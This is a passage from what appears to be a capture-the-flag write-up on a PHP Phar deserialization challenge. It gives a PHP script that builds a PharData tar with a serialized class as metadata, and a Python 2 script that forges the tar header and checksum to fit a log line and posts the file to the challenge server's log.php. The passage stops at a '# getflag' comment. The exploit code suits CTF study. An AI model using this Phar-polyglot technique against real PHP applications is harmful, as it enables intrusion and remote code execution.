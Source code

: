 All we need is to write on the `log.php` with Phar data on the right time and load the content in the server.

First, we make a script that creates PharData with `Flag` class as a metadata.
```php
<?php

error_reporting(0);
CLASS FLAG {
    public function __destruct(){
        echo "FLAG: " . $this->_flag;
    }
}

@unlink("get_flag.tar");
$phar = new PharData("get_flag.tar");
$phar["ABCDstypr"] = "GETFLAGGETFLAG";
$obj = new FLAG();
$phar->setMetadata($obj);

echo date("Y-m-d H:i:s", time());
```

Then the next step is to modify the checksum and make it look like a valid Phar file.

There is an amazing blog post about this attack so worth checking this blog post for more detailed information.
* https://blog.shpik.kr/php,/unserialize,/rce/2019/02/18/PHP_Exploitation_using_FILE_Function.html

```python
# NOTE: python2
import os
import sys
import struct
import requests
from datetime import datetime

def calc_checksum(data):
    return sum(struct.unpack_from("148B8x356B",data))+256

if __name__=="__main__":
    # generate date and phar content
    generated_date = os.popen("php exp_gen.php").read().split("FLAG: ")[0]
    generated_type = "styp979"
    generated_metadata = "Time: " + generated_date + " IP: [], REQUEST: [log_type=" + generated_type + "], CONTENT: ["

    # make it into phar format
    with open("get_flag.tar", "rb") as f:
        data = f.read()
    new_name = generated_metadata.ljust(100,'\x00').encode()
    new_data = new_name + data[100:]
    checksum = calc_checksum(new_data)
    new_checksum = oct(checksum).rjust(7,'0').encode()+b'\x00'
    new_data = new_name + data[100:148] + new_checksum + data[156:]
    with open("get_flag.log", "wb") as f:
        f.write(new_data)
        f.write(b"]\n")

    # request to server..
    print("Sending exp to the server...")
    with open("get_flag.log", "rb") as f:
        requests.post("http://43.155.59.185:53340/log.php?log_type=" + generated_type, data=f.read().replace(generated_metadata, "").replace("]\n","")).text

    # getflag
```